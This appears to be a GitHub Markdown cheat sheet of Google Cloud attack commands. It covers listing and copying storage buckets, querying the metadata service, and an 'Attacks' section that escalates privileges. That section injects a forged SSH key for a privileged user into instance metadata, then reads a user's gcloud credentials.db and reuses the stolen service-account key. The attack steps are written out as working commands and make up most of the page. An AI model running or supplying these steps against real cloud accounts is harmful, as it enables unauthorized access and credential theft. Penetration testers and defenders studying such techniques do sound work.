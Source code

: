 #### Storage Buckets
```bash
# List Google Storage buckets
gsutil ls
gsutil ls -r gs://<bucket name>
gsutil cat gs://bucket-name/anyobject
gsutil cp gs://bucketid/item ~/
```

#### Interesting metadata instance urls:
```bash
http://169.254.169.254/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/
http://metadata/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/instance/hostname
http://metadata.google.internal/computeMetadata/v1/instance/id
http://metadata.google.internal/computeMetadata/v1/project/project-id
```

## Attacks
```bash
# Check ssh keys attached to instance
gcloud compute instances describe instance-1 --zone=us-central1-a --format=json | jq '.metadata.items[].value'

# Check for "privilegeduser:ssh-rsa" and generate ssh keys with same username and paste in file
ssh-keygen -t rsa -C "privilegeduser" -f ./underprivuser

# Something like:
privilegeduser:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDFGrK8V2k0xBeSzN+oUgnRLSIgUED7ayeUJJ10ryEFR0xJbFeGsRAL5LUzw1DTT9gRKmcMTjmZNU3E99bwyytV0fLnGVRIZ63oC8IdTESR0g8EnU6yam/ntq6gZF5QRcES3gaZlnssOQQhw0rvcCB7o5oM1zCDQtgJXAu/2UI6yKf3xdlcHdrULbKTR+0c7r2FWMLgdghGsA+yH3leHJWjDE/WJ1mqf+ZE+RvwLZ8TmVFJmI37xoKEeVnkmOrOe/TMYvtuzSQduHEUhhfjB8YPUYH7dGHyVPlRp/0Hsrjauf5//zNN9dyAZisElgF7CnJmtJVizfDxlXd/nwrVC8nf2xzbi8nc24STfTg3+lR1f73Z5xN9waPl3eHMNy7nXvShxSO01ZwwuyTmjNh83ik1PJjNU= privilegeduser
privilegeduser:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDnLriKvJcwZ2eRUbYpy7ZiZrZub+ZblHgKhATPnRjEXK7Q5U3vOFutCeMavxQ82yIwne6b6LzDAfKeS6wlez1ll2npGhKpb8mAM+ZIKxdTAoAhenOlLlmMyYHhJs/UjkTtj7TZDIEa/uZjZgClK5fmgkYjprsRbPOtAru8fBAOAWfMtrXYFmUJy94iMIvYpRuUPTZ0XUkzmyETNspZOwoOd+K2yTmFor4mWIgTzbaeAtJA+b+nQmXM1Ya1RfalpQsomXnkhqihh/wmqJMDGIJT1YgepMxbj4wy5WyUlE4Ub+/Wh7Lyu51jaRJ++FYh/pgb3m3d8t7B6b2Jj7ldxicQSPu6Mc9TZ5QrPx91dOe/Mzmte2kW7AF8xXo+Se71Ffc5csupUo62uyeXt12F+qNiqHeJXSomxck7rRwonnUhyNJ2icCPogsbDNDjHvdXmGsrXNFU= privilegeduser

# Upload the file with the 2 keys and access to the instance
gcloud compute instances add-metadata instance-1 --metadata-from-file ssh-keys=keys.txt --zone us-central1-a
ssh -i underprivuser privilegeduser@xx.xx.xx.xx

# Re-authentication the account keys
# Find keys in instance

cd /home/<username>/.config/gcloud
cat credentials.db

# Copy the credentials, make a new json file inside your computer and paste it.

gcloud auth activate-service-account --key-file <file>.json

# Now can access API
```
